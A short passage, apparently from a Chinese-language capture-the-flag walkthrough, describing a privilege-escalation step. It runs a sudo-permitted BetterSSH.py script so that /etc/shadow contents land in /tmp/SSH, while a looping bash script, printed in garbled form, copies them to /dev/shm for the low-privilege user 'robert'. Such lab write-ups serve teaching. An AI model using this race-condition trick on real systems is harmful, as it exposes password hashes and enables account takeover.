 ![](img/2027c45f6cb4c8e731b1e1820936926c.png)

为了利用这一点，我们可以创建一个简单的无限循环，将所有内容从`/tmp/SSH`复制到“robert”用户可以访问和阅读的其他地方。在运行时，我们将运行`sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py`命令将`/etc/shadow`文件写入`/tmp`目录。

```
$ cat /tmp/copy.sh 
#!/bin/bashmkdir = '/tmp/SSH'while true
do
        cp /tmp/SSH/* /dev/shm/
done
```

![](img/eb6494a4636067e4c17ef87754ec8287.png)
